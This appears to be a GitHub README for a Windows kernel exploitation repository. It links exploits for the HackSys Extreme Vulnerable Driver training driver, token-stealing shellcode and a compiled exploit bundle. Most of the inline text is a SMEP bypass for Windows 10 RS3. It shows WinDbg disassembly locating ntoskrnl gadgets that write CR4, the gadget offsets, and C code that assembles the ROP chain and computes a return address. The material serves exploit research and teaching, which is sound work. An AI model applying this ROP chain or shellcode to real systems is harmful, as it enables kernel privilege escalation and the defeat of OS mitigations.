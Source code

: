 # Kernel SAGA
Windows Kernel Exploitation. <br>
Static & dynamic analysis, exploits & vuln reasearch. <br>
Mitigations bypass's <br>

# Contents:
HEVD-Vanilla-Bug-Class's:<br>
Exploits & Vuln Note's in order to reproduce & reuse.<br>
* <html><a href="https://github.com/akayn/demos/tree/master/HEVD-Vanilla-Bug-Class's">HEVD-Vanilla-Bug-Class's</a></html><br>
	[+] <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/Compiled.zip?raw=true">Compiled-win7x86</a></html><br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-TypeConfX86Win7.c">Type Confusion</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-ArbitraryOverwritex86win7.c">Arbitrary Overwrite</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-NullPointerDereference.c">Null Pointer Dereference</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-PoolOverFlow-Win7-x86.c">Pool OverFlow</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-StackOverFlowx86Win7.c">Stack OverFlow</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-Uaf-Win7x86.c">Use After Free</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-UninitializedStackVariableWin7x86.c">Uninitialized Stack Variable</a></html>.<br>

kd & dev:<br>
* ShellCode: <html><a href="https://github.com/akayn/demos/blob/master/Win10/PayLoads/TokenStealingShellCode.asm">pl.asm</a></html><br>

Mitigations Bypass:<br>
* ROP Based SMEP Bypass including Gadgets & full debugging info: <html><a href="https://github.com/akayn/demos/blob/master/Win10/SmepByPassWin10x64build.16281Rs3/demo.cc">SmepBypassX64Win10RS3.c</a></html><br>

Re & exploits:<br>
* CVE's:
	[+] ...
	...

# External Resources:
* HEVD & Basics:<br>
	[+] <html><a href="https://github.com/hacksysteam/HackSysExtremeVulnerableDriver">HackSysExtremeVulnerableDriver</a></html>.<br>
	[+] <html><a href="http://www.fuzzysecurity.com/tutorials.html">B33F tuto</a></html>.<br>
	[+] <html><a href="https://blahcat.github.io/2017/08/14/a-primer-to-windows-x64-shellcoding/">ShellCoding & kd</a></html>.<br>
* Mitigations:<br>
	[+] SMEP:<br>
		* <html><a href="https://en.wikipedia.org/wiki/Control_register#CR4">wiki</a></html>.<br>
		* <html><a href="http://j00ru.vexillium.org/?p=783">j00ru</a></html><br>.
		* <html><a href="https://github.com/n3k/EKOParty2015_Windows_SMEP_Bypass">Enrique Nissim & Nicolas Economou</a></html><br>.
		* <html><a href="https://www.blackhat.com/presentations/bh-usa-08/Shacham/BH_US_08_Shacham_Return_Oriented_Programming.pdf">return oriented Programming</a></html><br>.
	[+] k-ASLR:<br>
		* <html><a href="https://github.com/MortenSchenk/BHUSA2017">Morten Schenk</a></html>.<br>
		

# SMEP bypass on Win10x64 RS3 16281
![](Win10/SmepByPassWin10x64build.16281Rs3/poc/QuickPoc.gif)
# Gadgets Summery:

```c

/*
************* Symbol Path validation summary **************
Response                         Time (ms)     Location
Deferred                                       srv*
Symbol search path is: srv*
Executable search path is:
Windows 10 Kernel Version 16281 MP (1 procs) Free x64
Built by: 16281.1000.amd64fre.rs3_release.170829-1438
Machine Name:
Kernel base = 0xfffff803`a8a10000 PsLoadedModuleList = 0xfffff803`a8d79f70
System Uptime: 0 days 0:00:00.419
KDTARGET: Refreshing KD connection
Break instruction exception - code 80000003 (first chance)
kd> uf nt!KiFlushCurrentTbWorker
nt!KiFlushCurrentTbWorker:
fffff803`a8ab9b0c 0f20e1          mov     rcx,cr4
fffff803`a8ab9b0f 84c9            test    cl,cl
fffff803`a8ab9b11 790f            jns     nt!KiFlushCurrentTbWorker+0x16 (fffff803`a8ab9b22)  Branch
nt!KiFlushCurrentTbWorker+0x7:
fffff803`a8ab9b13 488bc1          mov     rax,rcx
fffff803`a8ab9b16 480fbaf007      btr     rax,7
fffff803`a8ab9b1b 0f22e0          mov     cr4,rax
fffff803`a8ab9b1e 0f22e1          mov     cr4,rcx <<<< -- gadget..
fffff803`a8ab9b21 c3              ret
nt!KiFlushCurrentTbWorker+0x16:
fffff803`a8ab9b22 0f20d8          mov     rax,cr3
fffff803`a8ab9b25 0f22d8          mov     cr3,rax
fffff803`a8ab9b28 c3              ret
kd> ? fffff803`a8ab9b1e - 0xfffff803`a8a10000
Evaluate expression: 695070 = 00000000`000a9b1e <<< -- offset from Ntoskrnl...
kd> uf nt!HvlEndSystemInterrupt
nt!HvlEndSystemInterrupt:
fffff803`a8b8d950 4851            push    rcx
fffff803`a8b8d952 50              push    rax
fffff803`a8b8d953 52              push    rdx
fffff803`a8b8d954 65488b142508620000 mov   rdx,qword ptr gs:[6208h]
fffff803`a8b8d95d b970000040      mov     ecx,40000070h
fffff803`a8b8d962 0fba3200        btr     dword ptr [rdx],0
fffff803`a8b8d966 7206            jb      nt!HvlEndSystemInterrupt+0x1e (fffff803`a8b8d96e)  Branch
nt!HvlEndSystemInterrupt+0x18:
fffff803`a8b8d968 33c0            xor     eax,eax
fffff803`a8b8d96a 8bd0            mov     edx,eax
fffff803`a8b8d96c 0f30            wrmsr
nt!HvlEndSystemInterrupt+0x1e:
fffff803`a8b8d96e 5a              pop     rdx
fffff803`a8b8d96f 58              pop     rax
fffff803`a8b8d970 59              pop     rcx  <<< --- gadget...
fffff803`a8b8d971 c3              ret
kd> ? fffff803`a8b8d970 - 0xfffff803`a8a10000
Evaluate expression: 1562992 = 00000000`0017d970 << -- offset..
kd> uf nt!KiConfigureDynamicProcessor
nt!KiConfigureDynamicProcessor:
fffff803`e223ec38 4883ec28        sub     rsp,28h
fffff803`e223ec3c e87b49ffff      call    nt!KiEnableXSave (fffff803`e22335bc)
fffff803`e223ec41 4883c428        add     rsp,28h
fffff803`e223ec45 c3              ret
kd> uf nt!KiEnableXSave
nt!KiEnableXSave:
fffff803`e22335bc 0f20e1          mov     rcx,cr4
fffff803`e22335bf 48f7054e4bfdff00008000 test qword ptr [nt!KeFeatureBits (fffff803`e2208118)],800000h
fffff803`e22335ca b800000400      mov     eax,40000h
fffff803`e22335cf 0f8450740000    je      nt!KiEnableXSave+0x7469 (fffff803`e223aa25)  Branch
nt!KiEnableXSave+0x19:
fffff803`e22335d5 4885c8          test    rax,rcx
fffff803`e22335d8 7453            je      nt!KiEnableXSave+0x71 (fffff803`e223362d)  Branch
nt!KiEnableXSave+0x1e:
fffff803`e22335da 48bad803000080f7ffff mov rdx,0FFFFF780000003D8h
fffff803`e22335e4 33c9            xor     ecx,ecx
fffff803`e22335e6 488b12          mov     rdx,qword ptr [rdx]
fffff803`e22335e9 488bc2          mov     rax,rdx
fffff803`e22335ec 48c1ea20        shr     rdx,20h
fffff803`e22335f0 0f01d1          xsetbv
fffff803`e22335f3 48baf005000080f7ffff mov rdx,0FFFFF780000005F0h
fffff803`e22335fd 488b12          mov     rdx,qword ptr [rdx]
fffff803`e2233600 4885d2          test    rdx,rdx
fffff803`e2233603 0f8509740000    jne     nt!KiEnableXSave+0x7456 (fffff803`e223aa12)  Branch
nt!KiEnableXSave+0x4d:
fffff803`e2233609 65488b0c2520000000 mov   rcx,qword ptr gs:[20h]
fffff803`e2233612 488d81f0010000  lea     rax,[rcx+1F0h]
fffff803`e2233619 483981c0620000  cmp     qword ptr [rcx+62C0h],rax
fffff803`e2233620 740a            je      nt!KiEnableXSave+0x70 (fffff803`e223362c)  Branch
nt!KiEnableXSave+0x66:
fffff803`e2233622 8189c862000040001000 or  dword ptr [rcx+62C8h],100040h
nt!KiEnableXSave+0x70:
fffff803`e223362c c3              ret  Branch
nt!KiEnableXSave+0x71:
fffff803`e223362d 480bc8          or      rcx,rax
fffff803`e2233630 0f22e1          mov     cr4,rcx
fffff803`e2233633 eba5            jmp     nt!KiEnableXSave+0x1e (fffff803`e22335da)  Branch
nt!KiEnableXSave+0x7456:
fffff803`e223aa12 488bc2          mov     rax,rdx
fffff803`e223aa15 b9a00d0000      mov     ecx,0DA0h
fffff803`e223aa1a 48c1ea20        shr     rdx,20h
fffff803`e223aa1e 0f30            wrmsr
fffff803`e223aa20 e9e48bffff      jmp     nt!KiEnableXSave+0x4d (fffff803`e2233609)  Branch
nt!KiEnableXSave+0x7469:
fffff803`e223aa25 4885c8          test    rax,rcx
fffff803`e223aa28 0f84fe8bffff    je      nt!KiEnableXSave+0x70 (fffff803`e223362c)  Branch
nt!KiEnableXSave+0x7472:
fffff803`e223aa2e 480fbaf112      btr     rcx,12h
fffff803`e223aa33 0f22e1          mov     cr4,rcx <<<--- gadget...
fffff803`e223aa36 c3
kd> ? fffff803`e223aa33 - fffff803`e1e06000
Evaluate expression: 4409907 = 00000000`00434a33 <<-- offset..
*/

  	// To better align the buffer,
	// it is usefull to declare a
	// memory structure, other-wise you will get holes
	// in the buffer and end up with an access violation.
	typedef struct _RopChain {
		PUCHAR HvlEndSystemInterrupt;
		PUCHAR Var;
		PUCHAR KiEnableXSave;
		PUCHAR payload;
		// PUCHAR deviceCallBack;
	} ROPCHAIN, *PROPCHAIN;


  	// Pack The buffer as:  

	ROPCHAIN Chain;

	// nt!HvlEndSystemInterrupt+0x1e --> Pop Rcx; Retn;
	Chain.HvlEndSystemInterrupt = Ntos + 0x17d970;

	// kd> r cr4
	// ...1506f8
	Chain.Var = (PUCHAR)0x506f8;


	// nt!KiEnableXSave+0x7472 --> Mov Cr4, Rcx; Retn;
	Chain.KiEnableXSave = Ntos + 0x434a33;

	Chain.payload = (PUCHAR)pl;

	/*
	kd> k
	08 ffffb302`61b1e7f0 fffff802`4f85c20b nt!IofCallDriver+0x59
	09 ffffb302`61b1e830 fffff802`4f85ba5f nt!IopSynchronousServiceTail+0x1ab
	0a ffffb302`61b1e8e0 fffff802`4f85b3c6 nt!IopXxxControlFile+0x67f
	0b ffffb302`61b1ea20 fffff802`4f58f953 nt!NtDeviceIoControlFile+0x56
	0c ffffb302`61b1ea90 00007ffd`fae7d6e4 nt!KiSystemServiceCopyEnd+0x13
	0d 00000029`6b9af888 00007ffd`f75a13aa ntdll!NtDeviceIoControlFile+0x14
	0e 00000029`6b9af890 00000000`00000000 0x00007ffd`f75a13aa
	kd> u nt!IofCallDriver+0x59
	nt!IofCallDriver+0x59:
	fffff802`4f425b49 4883c438        add     rsp,38h
	fffff802`4f425b4d c3              ret
	fffff802`4f425b4e 0fb64001        movzx   eax,byte ptr [rax+1]
	fffff802`4f425b52 2c02            sub     al,2
	fffff802`4f425b54 3c01            cmp     al,1
	fffff802`4f425b56 77dc            ja      nt!IofCallDriver+0x44 (fffff802`4f425b34)
	fffff802`4f425b58 488bca          mov     rcx,rdx
	fffff802`4f425b5b e8c4890f00      call    nt!IopPoHandleIrp (fffff802`4f51e524)
	
	 The Call is always in a fixed location from Ntoskrnl...
	*/

	// nt!IofCallDriver+0x59
	LPVOID deviceCallBack = (LPVOID)(Ntos + 0x22b49);

```

![](https://github.com/akayn/demos/blob/master/Win10/SmepByPassWin10x64build.16281Rs3/poc/SMEPBypass.PNG)

